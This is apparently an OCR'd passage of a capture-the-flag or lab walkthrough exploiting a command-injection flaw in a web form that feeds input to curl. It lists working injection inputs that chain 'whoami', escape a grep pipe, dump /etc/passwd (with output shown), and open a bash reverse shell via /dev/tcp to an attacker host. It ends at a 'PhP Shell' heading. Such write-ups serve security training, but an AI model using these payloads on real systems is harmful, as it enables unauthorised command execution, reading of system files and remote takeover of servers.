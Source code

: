 2. Try use Basic command chaining, we get:
   ~~~
   Input = https://google.com; whoami
   ~~~
   > User command: curl -I -s -L `https://google.com; whoami` | grep "HTTP/"  
   > Result: HTTP/2 301 location: https://www.google[.]com/  
   > content-type: text/html; charset=UTF-8  
   > content-security-policy-report-only: object-src 'none';base-uri  
   > 'self';script-src 'nonce-JBk79PRoFMIpvf44w3EC-A' 'strict-  

3. To escape from the | grep "HTTP/”, use echo, we get:
   ~~~
   Input = ; whoami; echo 'null/'
   ~~~
   > User command: curl -I -s -L `; whoami; echo 'null/'` | grep "HTTP/"  
   > Result: www-data

### Inject other Commands
1. Run other command;
   ~~~
   Input = ; cat /etc/passwd; echo 'a'
   ~~~
   > Command: curl -I -s -L `; cat /etc/passwd ; echo 'a'` | grep "HTTP/"
   > daemon : x : 1 : 1: daemon: /usr/sbin: /usr/sbin/nologin  
   > bin:x: 2:2: bin: /bin:/usr/sbin/nologin  
   > sys : x : 3:3: sys :/dev: /usr/sbin/nologin  
   > Www-data:x :33:33:www-data:/var/www:/usr/sbin/nologin  
   > backup:x : 34: 34: backup: /var/backups: /usr/sbin/nologin  
   > irc:x:39:39: ircd: /run/ircd:/usr/sbin/nologin  
   > gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin  
   > nobody: x : 65534 : 65534 : nobody : /nonexistent :/usr/sbin/nologin  
   > lp:x:7:7: lp:/var/spool/lpd:/usr/sbin/nologin  
   > _apt : x : 100: 65534: : /nonexistent: /usr/sbin/nologin

### Reverse shell connection

#### Bash Shell

1. Learn the full path of bash it use;
   ~~~
   Input = ; which bash; echo 'a'
   ~~~
   > User command: curl -I -s -L `; which bash; echo 'a'` | grep "HTTP/"  
   > Result: /bin/bash

2. Use one line reverse bash_TCP shell
   ~~~
   Input = ; /bin/bash -i >& /dev/tcp/<LHOST>/<LPORT> 0>&1; echo 'a’
   ~~~

{: .box-note}
**Note:**💡When using command injection, try to use full path to binary. Plus common port.

#### PhP Shell
